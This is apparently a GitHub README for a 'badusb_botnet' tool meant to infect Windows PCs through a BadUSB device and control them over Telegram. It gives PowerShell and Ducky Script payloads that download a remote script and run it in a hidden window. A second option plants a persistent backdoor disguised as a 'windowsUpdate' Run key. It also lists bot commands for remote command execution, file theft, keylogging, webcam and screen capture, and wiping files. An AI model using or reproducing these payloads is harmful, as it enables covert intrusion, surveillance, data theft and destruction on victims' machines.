 # badusb_botnet
:smiling_imp::busts_in_silhouette: Infect a pc with badusb and establish a connection through telegram.

## Option 1

```
> (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
> powershell.exe -windowstyle hidden -file poc.ps1
```

```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
DELAY 500
ENTER
STRING powershell.exe -windowstyle hidden -file poc.ps1
DELAY 500
ENTER
```

## Option 2 (Backdoor)

```
> reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
> Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
> reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
```
```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
DELAY 500
ENTER
STRING reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
DELAY 500
ENTER
```

#### Telegram Options

- /select ```IP``` ```command``` (Execute a command in a PC)
- /stop ```IP``` (Stop remote connection with a PC)
- /list (List all devices availables)
- /screenshot ```IP``` (Capture screen of a PC)
- /backdoor ```IP``` (Creates a persistent backdoor in a PC)
- /cleanAll ```IP``` (Clean all files in a PC)
- /ipPublic ```IP``` (Geolocate IP)
- /download ```IP``` ```file``` (Download a file from a PC)
- /keylogger ```IP``` ```time```
- /hackT ```IP``` 
- /hackW ```IP```
- /webcam ```IP```
- /nc ```IP``` (nc -lp 8888)
- <img src="https://static-cdn.jtvnw.net/emoticons/v1/112290/1.0" width="15px" height="15px" /> /twitch ```IP``` ```STREAM_KEY```
